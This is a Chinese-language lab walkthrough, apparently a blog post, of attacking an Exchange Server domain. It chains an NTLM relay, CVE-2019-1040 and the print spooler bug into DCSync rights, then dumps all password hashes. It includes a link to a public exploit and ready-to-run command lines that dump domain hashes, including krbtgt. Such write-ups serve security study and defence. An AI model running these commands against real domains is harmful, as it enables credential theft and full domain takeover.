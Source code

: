 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTDL3jje1HyrCh47icJUgCCcibKKuibWzplJcdFZj1ulcgvSrj44cs2quOQ/640?wx_fmt=png)

攻击 Exchange Server 实验环境

```
Attacker:kali ,机器名：kali :192.168.8.135
DC:windows 2012 ,机器名：dc.one.com :192.168.8. 178 ,域：one.com
Exchange Server windows 2012, 机器名：ex.one.com :192.168.8.185 ,域：one.com
```

这里有一个我们已经获取的普通的域用户 user ，接着通过 ntlmrelayx.py 脚本进行 NTLM 中继攻击，设置 SMB 服务器并将认证凭据中继到 LDAP 协议，这里由于 Exchange 机器用户在 Exchange Trusted Subsystem 组，Exchange Trusted Subsystem 有 write-acl 权限，可以给任意用户添加 Dcsync 权限。  

可以看到 impacket 包里面的 ldapattack.py 默认就是一开始通过修改用户 ACL 来提升用户权限

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTiaEOS4nAFS9acu8oiaDYsxBao5mQFvpKBsTEjZpFmpic7iaHa9sJ4Vou6A/640?wx_fmt=png)

这里通过 --escalate-user 来提升指定用户权限。，一样通过参数 --remove-mic 来利用 CVE-2019-1040 漏洞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTJUWnTfesdxcdkBsolZyvjooibbaA7CxF0bJy7EwrGCiaa3En5Wwntq7Q/640?wx_fmt=png)

接着触发打印机漏洞触发 SpoolService 的 bug，来发起 NTLM 请求

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTVIoZXFZQicYTWyWuIXHg2sz7Us6L7R8pM5PicBZktbpbbp4bqnbmcUHA/640?wx_fmt=png)

由于安装 Exchange 后，Exchange 在 Active Directory 域中具有高权限，Exchange 的本地计算机账户 EX$ 会被加入用户组 Exchange Trusted Subsystem，该用户组又隶属于 Exchange Windows Permissions。Exchange Windows Permissions 组可以通过 WriteDacl 方式访问 Active Directory 中的 Domain 对象，该对象允许该组的任何成员修改域权限，从而可以修改当前域 ACL 达到提权目的。可以看到脚本一开始遍历验证中继帐户所在用户组及权限，发现当前账户可以创建用户、可以修改 one.com 域的 ACL，便通过这个来修改 user 的 ACL

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTgcblcuPkyqibwoeqk8nH4c5KICCFCSiccAkeBKxOUdXRQRKLia8EJpTCg/640?wx_fmt=png)

SpoolService 的 bug 导致 Exchange 服务器回连到 ntlmrelayx.py，然后提升到了 user 的权限。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgST9qGrdg8iaWE2ibIQfRLQotA7rBAz2njliapcyficjlFpNbpU6OhOrLPADA/640?wx_fmt=png)

接着 user 用户就可以通过 secretsdump.py 的 DCSync 功能 dump 出所有密码哈希值：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgSTbs1R2StEGuB8NgXichO0qsth9C6LD20IAloV9NpCDFufoHuE6YwIazA/640?wx_fmt=png)

自动化攻击利用 CVE-2019-1040

```
https://github.com/Ridter/CVE-2019-1040
```

```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip
```

```
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip
```

如果您只想转储 KRBTGT，请使用 --just-dc-user。

```
python CVE-2019-1040.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip  --just-dc-user krbtgt
```

```
python CVE-2019-1040.py -ah attackterip -u user --hashes userhash -d domain.com -th DCip MailServerip --just-dc-user krbtgt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAvjocz8sXxhXicVaGuISgST69NXossRhsHcGiaG2fQgMX7Wld8rhnvn3E0pm0oKzSDJI2gjIicku0hw/640?wx_fmt=png)